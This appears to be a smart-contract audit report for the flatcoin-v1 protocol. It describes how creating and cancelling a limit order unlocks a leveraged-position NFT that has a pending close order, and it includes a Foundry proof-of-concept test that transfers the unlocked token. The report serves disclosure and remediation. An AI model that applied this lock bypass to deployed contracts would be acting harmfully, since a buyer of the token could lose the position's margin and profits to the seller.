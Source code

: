 Flaky Myrtle Porcupine

medium

# Leverage NFT position token can be unlocked while having a pending leverageAdjust or leverageClose order.

## Summary
Users can maliciously unlock the locked leverage NFT token while having a pending `leverageAdjust` or `leverageClose` order.
## Vulnerability Detail
When calling `announceLeverageAdjust` or `announceLeverageClose` the nft token representing the position is locked
```solidity
function announceLeverageAdjust(
    uint256 tokenId,
    int256 marginAdjustment,
    int256 additionalSizeAdjustment,
    uint256 fillPrice,
    uint256 keeperFee
) external whenNotPaused {
    ...
    // Lock the NFT belonging to this position so that it can't be transferred to someone else.
    // Locking doesn't require an approval from the leverage trader.
    leverageModule.lock(tokenId);
    ...
}
```

```solidity
function announceLeverageClose(uint256 tokenId, uint256 minFillPrice, uint256 keeperFee) external whenNotPaused {
    ...
    // Lock the NFT belonging to this position so that it can't be transferred to someone else.
    // Locking doesn't require an approval from the leverage trader.
    leverageModule.lock(tokenId);
    ...
}
```

So token should not be transferable while having `leverageAdjust` or `leverageClose` orders pending. But it can be bypassed by creating and canceling the limit order.

When announcing a limit order a token is locked again (the `_lock` and `_unlock` functions don't check if the token is already locked/unlocked)
```solidity
function announceLimitOrder(uint256 tokenId, uint256 priceLowerThreshold, uint256 priceUpperThreshold) external {
    ...
    // Lock the NFT belonging to this position so that it can't be transferred to someone else.
    ILeverageModule(vault.moduleAddress(FlatcoinModuleKeys._LEVERAGE_MODULE_KEY)).lock(tokenId);
    ...
}
```

After that, a user can call `cancelLimitOrder` for the same tokenId
```solidity
function cancelLimitOrder(uint256 tokenId) external {
    ...
    // Unlock the ERC721 position NFT to allow for transfers.
    ILeverageModule(vault.moduleAddress(FlatcoinModuleKeys._LEVERAGE_MODULE_KEY)).unlock(tokenId);
    ...
}
```

This will unlock the token for the user while still having a pending `leverageAdjust` or `leverageClose` order.

#### Coded POC
Add this test to `./test/unit/Leverage-Module/Leverage.t.sol`  
add `import {FlatcoinStructs} from "../../../src/libraries/FlatcoinStructs.sol";`     
and run with `forge test --match-path ./test/unit/Leverage-Module/Leverage.t.sol -vvv`

```solidity
function testUnlockToken() public {
    announceAndExecuteDeposit({
        traderAccount: alice,
        keeperAccount: keeper,
        depositAmount: 100e18,
        oraclePrice: 2000e8,
        keeperFeeAmount: 0
    });

    uint256 tokenId = announceAndExecuteLeverageOpen({
        traderAccount: alice,
        keeperAccount: keeper,
        margin: 100e18,
        additionalSize: 100e18,
        oraclePrice: 2000e8,
        keeperFeeAmount: 0
    });

    // Leverage close announced
    announceCloseLeverage(alice, tokenId, 0);

    vm.startPrank(alice);

    // Announce limit order for the same tokenId that you announced leverage close for
    limitOrderProxy.announceLimitOrder({
        tokenId: tokenId,
        priceLowerThreshold: 900e18, // whatever
        priceUpperThreshold: 3000e18 // whatever
    });

    // Check that limit order was created correctly
    FlatcoinStructs.Order memory limitOrder = limitOrderProxy.getLimitOrder(tokenId);
    assertEq(uint256(limitOrder.orderType), uint256(FlatcoinStructs.OrderType.LimitClose));
    assertEq(limitOrder.keeperFee, 0, "Limit order keeper fee not 0"); // limit orders have no keeper fee
    assertEq(limitOrder.executableAtTime, block.timestamp + vaultProxy.minExecutabilityAge());

    // Check that leverage close was announced correctly and that tokenId is locked
    FlatcoinStructs.Order memory leverageCloseOrder = delayedOrderProxy.getAnnouncedOrder(alice);
    assertEq(uint256(leverageCloseOrder.orderType), uint256(FlatcoinStructs.OrderType.LeverageClose));
    assertEq(leverageCloseOrder.executableAtTime, block.timestamp + vaultProxy.minExecutabilityAge());
    assertTrue(leverageModProxy.isLocked(tokenId), "Position token not locked");

    limitOrderProxy.cancelLimitOrder(tokenId);

    // Check if limit order was cancelled successfully and reset to default values
    limitOrder = limitOrderProxy.getLimitOrder(tokenId);
    assertEq(uint256(limitOrder.orderType), uint256(FlatcoinStructs.OrderType.None));
    assertEq(limitOrder.executableAtTime, 0);

    // Check that leverage close is still pending and that tokenId is unlocked
    leverageCloseOrder = delayedOrderProxy.getAnnouncedOrder(alice);
    assertEq(uint256(leverageCloseOrder.orderType), uint256(FlatcoinStructs.OrderType.LeverageClose));
    assertEq(leverageCloseOrder.executableAtTime, block.timestamp + vaultProxy.minExecutabilityAge());
    assertTrue(!leverageModProxy.isLocked(tokenId), "Position token locked");

    // Transfer out
    leverageModProxy.transferFrom({from: alice, to: bob, tokenId: tokenId});

    // Check owner
    assertEq(leverageModProxy.ownerOf(tokenId), bob);
}
```
## Impact
A user could potentially sell the token before the leverageClose is executed and then execute the order. This will send the margin + any profits or losses to the original owner creator instead of the current token owner.
## Code Snippet
https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol#L298

https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol#L361

https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol#L76

https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol#L94

https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/misc/ERC721LockableEnumerableUpgradeable.sol#L32-L36

https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/misc/ERC721LockableEnumerableUpgradeable.sol#L43-L47

https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LeverageModule.sol#L314
## Tool used
Manual Review

## Recommendation
Don't allow the creation of limit orders while the token is locked.